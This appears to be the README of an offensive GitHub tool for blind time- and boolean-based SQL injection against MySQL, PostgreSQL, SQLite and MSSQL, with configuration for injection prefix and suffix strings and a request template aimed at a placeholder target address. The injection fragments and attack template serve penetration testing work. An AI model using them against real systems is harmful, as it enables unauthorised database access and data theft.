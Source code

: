 # MySQLi
**Time** and **Boolean** based SQLi for **MySQL**,  **PostgreSQL**, **SQLite** and **MSSQL**  

![screenshot](https://github.com/physics-sp/MySQLi/blob/main/demo.png?raw=true)

## Features
- It allows you to have more control over the attack. You can handle logouts, CSRF tokens, and other tricky scenarios in which [sqlmap](https://github.com/sqlmapproject/sqlmap) doesn't work.
- It uses Binary search to increase speed
- Supports multiple types of databases _(MSSQL only supports Boolean based)_

## Usage
Set the database and SQLi type, the strings that go before and after the query and the sleep time if Time based if being used
```python
database = DBType.PostgreSQL
sqlitype = SQLiType.Boolean
PRE = "' or"
POST = '-- -'
sleep_time = 2
```
Re-define the `send_req` function.
```python
def send_req(payload):
    # CHANGE THIS
    global num_queries
    num_queries += 1
    # print(payload)
    params = {'pwn': payload}
    cookies = {}
    proxies = {}
    # proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
    url = 'http://10.10.10.10/index.php'
    r = requests.get(url,
                     params=params,
                     verify=False,
                     proxies=proxies,
                     allow_redirects=False,
                     cookies=cookies)
    return r

```

## TODO
- Add Time based to MSSQL
- Add more DBs
